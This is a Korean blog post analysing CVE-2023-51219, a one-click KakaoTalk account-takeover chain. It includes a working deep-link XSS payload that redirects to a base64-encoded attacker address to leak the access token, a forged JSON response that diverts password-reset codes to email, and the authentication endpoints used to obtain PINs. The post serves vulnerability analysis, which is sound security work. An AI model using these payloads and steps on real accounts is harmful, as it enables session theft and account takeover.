 ```yaml
---
title: CVE-2023-51219 Kakaotalk One Click Exploit
published: 2025-06-02
description: " "
tags: [One_day_analysis, hacking, kakao]
category: analysis
draft: false
---
```


:::note
https://stulle123.github.io/posts/kakaotalk-account-takeover/  
stulle123님의 블로그를 기반으로 합니다.
:::

카카오 버그바운티에 자주 참여하는 사람으로써 해당 취약점 분석을 안해볼 수 없었습니다.
`stulle123`님의 블로그와 관련 자료를 기반으로 하여, 구버전 카톡을 분석하였습니다

공격자는 해당 취약점을 이용해 원클릭으로 상대의 카카오톡 세션을 탈취할 수 있었습니다.

공격루틴은 아래와 같습니다

### 1. XSS를 통한 access token 탈취
```
kakaotalk://buy/auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv');">
```
카카오톡 Android 앱의 `CommerceBuyActivity`는 딥링크를 통해 외부 웹페이지를 WebView로 로드합니다.
공격자는 이를 이용해 위와 같은 XSS 페이로드를 작성했습니다.

`CommerceBuyActivity`에서 `kakaotalk://buy/hello`는 `https://buy.kakao.com/hello`와 같이 해석되어 URL을 로드합니다.

이 상태에서는 buy.kakao.com에서 xss를 터트리는 것 외에는 방법이 없어보입니다.
따라서 분석자는 `https://buy.kakao.com/auth/0/cleanFrontRedirect?returnUrl=`에서 Open Redirect 취약점을 찾아 다른 xss 포인트로 옮기는 방법을 사용했습니다.

`shoppinghow.kakao.com`에서 DOM기반 XSS 취약점이 터져 해당 포인트에서 익스플로잇 했습니다.

### 2. 카카오 메일 계정 탈취
서버로 요청된 `Authorization` 헤더에서 카카오 계정 access token이 노출됩니다

카카오 계정 토큰을 가지고 카카오 메일의 토큰을 만들었고 카카오 메일 계정을 탈취했습니다

1. 비밀번호 재설정을 요청합니다
2. `/kakao_accounts/check_verify_type_for_find_password.json` 패킷을 위조해 재설정 인증번호를 카카오 메일로 받습니다
```json
{
  "status": 0,
  "verify_types": [
    0
  ],
  "suspended": false,
  "dormant": false,
  "kakaotalk": false,
  "expired": false,
  "created_at": 1700754321,
  "two_step_verification": false,
  "is_fill_in_email": false,
  "account_type": 0,
  "display_id": null
}
```

- `verify_types`을 변경해 확인코드가 폰 대신 이메일로 전송되게 만들었다고 합니다

이를 통해 탈취한 이메일로 인증번호를 받아 비밀번호를 변경했습니다

### 3. 카카오톡 계정 탈취
카카오톡 로그인에는 4자리 핀코드를 입력하는 2차 인증이 기본적으로 설정 되어 있습니다.

https://talk-pilsner.kakao.com/talk-public/account/passcodeLogin/authorize
https://katalk.kakao.com/win32/account/register_device.json

각각 모바일, PC에서의 인증번호를 받는 HTTP API 입니다.

탈취한 access_token을 사용해 PIN 번호를 임의로 가져올 수 있었습니다.

이로써 공격자는 완전히 피해자의 카카오톡 계정을 탈취했습니다.
